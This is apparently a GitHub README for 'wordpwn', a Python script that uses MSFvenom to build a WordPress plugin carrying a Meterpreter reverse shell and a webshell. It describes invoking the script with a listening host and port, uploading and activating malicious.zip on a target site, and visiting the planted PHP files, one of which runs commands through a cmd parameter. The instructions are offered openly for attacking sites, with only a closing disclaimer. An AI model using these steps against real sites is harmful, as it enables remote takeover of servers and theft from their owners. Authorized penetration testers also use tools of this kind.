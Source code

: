 # Malicious WordPress plugin

This utility simply generates a WordPress plugin that will grant you a reverse shell once uploaded. I recommend installing Kali Linux, as MSFvenom is used to generate the payload.

It goes without mentioning that in order for this method to be effective, you must have credentials to a
valid User account, with rights to add plugins to the WordPress website ;)

## Usage Example
```sh
root@wetw0rk:~# python wordpwn.py
__        __            _
\ \      / /__  _ __ __| |_ ____      ___ __
 \ \ /\ / / _ \|  __/ _  |  _ \ \ /\ / /  _ \
  \ V  V / (_) | | | (_| | |_) \ V  V /| | | |
   \_/\_/ \___/|_|  \__,_| .__/ \_/\_/ |_| |_|
                         |_|


Usage: wordpwn.py [LHOST] [LPORT] [HANDLER]
Example: wordpwn.py 192.168.0.6 8888 Y
```

## How and When do I use this?

Usage is super simple, simply pass wordpwn your listening address and listening port and execute the script. You are also given the option to start a handler, I recommend that you do... since by default the plugin will be made using a `php/meterpreter/reverse_tcp` reverse shell.If you have your own nefarious PHP payload simply adjust the script to accept it.

After the script is ran, a zip file (the plugin) called `malicious.zip` will be created in the current directory (and a handler will be started if you specified it with the `Y` option).
Upload this zip file as a new plugin (by browsing to the URL `http://(target)/wp-admin/plugin-install.php?tab=upload`).
Once uploaded, you have to activate the plugin.

Be sure to start our listener (if you didn't specify the handler with the `Y` option) !
If reverse shell connection doesn't hang there is a webshell uploaded which can be accessed.

Once the plugin installed and activated, just navigate to the following URLs to launch the reverse shell or the webshell :
 - http://(target)/wp-content/plugins/malicious/wetw0rk_maybe.php
 - http://(target)/wp-content/plugins/malicious/QwertyRocks.php
 - http://(target)/wp-content/plugins/malicious/SWebTheme.php?cmd=ls  (Webshell with list directory command)


**Note:** if the script usage is still a mystery to you, [JavaRockstar](https://github.com/JavaRockstar) has made a tutorial on his website [HackingVision](https://hackingvision.com/2017/04/11/hacking-wordpress-website-malicious-plug/) about it.


## PLEASE READ
I want to be 100% sure that I give credit to [Rob Carr](https://www.rastating.com/). Rob Carr is the author of the Metasploit module `wp_admin_shell_upload`, which this script is based on. You can find more information on his module at [Rapid7](https://www.rapid7.com/db/modules/exploit/unix/webapp/wp_admin_shell_upload) .

## DISCLAIMER
I'm not responsible for any bad use case, use this script at your own risks, do not use it for any illegal/unethical purposes.

